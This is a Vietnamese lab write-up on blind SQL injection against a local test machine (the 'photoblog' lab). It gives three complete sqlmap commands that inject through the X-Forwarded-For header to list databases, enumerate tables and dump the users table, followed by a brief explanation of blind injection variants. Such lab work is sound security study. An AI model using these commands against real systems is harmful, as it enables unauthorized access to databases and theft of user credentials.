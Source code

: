 # Report lab 2 SQL Injection

Tương tự lab trước, thử nhập dấu ' vào trước 1 trên id

![image](https://user-images.githubusercontent.com/61901474/163430883-02d0ab17-0a11-4b6a-9ecc-70f5e6d2cd54.png)

-> không thấy hiện thông báo lỗi nào -> Blind SQL injection

-> Sử dụng sqlmap để tấn công

- Kiểm tra database có trong server
```
sqlmap -u "http://192.168.67.133/cat.php?id=1" --headers="X-forwarded-for:1*" --dbs
```
![image](https://user-images.githubusercontent.com/61901474/163430027-95784f6b-1401-4a5b-afbd-8199a745f132.png)


![image](https://user-images.githubusercontent.com/61901474/163430038-c0f5349c-6a2c-4372-83b9-d444385d051d.png)

- Kiểm tra các bảng của database photoblog
```
sqlmap -u "http://192.168.67.133/cat.php?id=1" --headers="X-forwarded-for:1*" --tables -D photoblog --smart --batch
```
![image](https://user-images.githubusercontent.com/61901474/163430062-2220d0dc-8ec2-43e9-841e-e2e5e3e92213.png)

![image](https://user-images.githubusercontent.com/61901474/163430078-6f6da365-d127-4ac3-9ddb-ce3186b8a72c.png)

- Xem dữ liệu của bảng users
```
sqlmap -u "http://192.168.67.133/cat.php?id=1" --headers="X-forwarded-for:1*" --dump -T users -D photoblog --smart --batch
```
![image](https://user-images.githubusercontent.com/61901474/163430093-0c7ad3ee-c878-42da-81a1-e87ea48e72cd.png)

![image](https://user-images.githubusercontent.com/61901474/163430101-0863ffdf-2080-46f0-872a-b8ee64b51b1a.png)

- Blind SQL injection: Blind SQL injection là một kiểu tấn công SQL injection truy vấn cơ sở dữ liệu sử dụng các mệnh đề để đoán biết. Cách tấn công này thường được sử dụng khi mà một ứng dụng (web, apps) được cấu hình để chỉ hiển thị những thông báo lỗi chung chung, không hiển thị ra lỗi của SQL. 

Có hai biến thể chính để thực hiện Blind SQL injection: Blind SQL injejction dựa vào nội dung phản hồi và Blind SQL injejction dựa vào độ trễ của thời gian phản hồi.
